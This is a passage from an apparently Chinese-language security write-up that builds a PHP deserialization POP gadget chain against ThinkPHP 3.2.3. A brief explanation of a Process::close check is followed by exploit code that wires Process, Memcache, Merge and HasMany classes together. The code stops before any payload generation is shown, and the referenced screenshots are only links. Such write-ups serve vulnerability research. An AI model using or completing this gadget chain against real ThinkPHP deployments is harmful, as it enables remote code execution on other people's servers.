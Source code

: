 ![image-20220524232041359](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220524232041359.png)

`TP3.2.3`的链子

`www\thinkphp\library\think\Process.php`

![image-20220524234502528](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220524234502528.png)

这里的`close`方法多了`if`的条件判断，导致我们无法使用`$this->processPipes->close()`，找到一个成员变量调用`close`的类

![image-20220524234553695](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220524234553695.png)

需要把$this->processPipes`的链接接入到`$this->handler

构造pop链子

```php
<?php

namespace think;
use think\session\driver\Memcache;
class Process
{
    private $processPipes;

    private $status;

    private $processInformation;
    public function  __construct(){
        $this->processInformation['running']=true;
        $this->status=3;
        $this->processPipes=(new Memcache(1));
    }

}
namespace think;
class Model{

}
namespace think\model;
use think\Model;
class Merge extends Model{
    public $a='1';
    public function __construct()
    {
    }
}

namespace think\model\relation;
use think\console\Output;
use think\db\Query;
use think\model\Merge;
use think\model\Relation;
class HasMany extends Relation
{
    //protected $baseQuery=true;
    protected $parent;
    protected $localKey='a';
    protected $foreignKey='a';
    protected $pivot;
    public function __construct(){
        $this->query=new Output();
        $this->parent= new Merge();

    }
}
```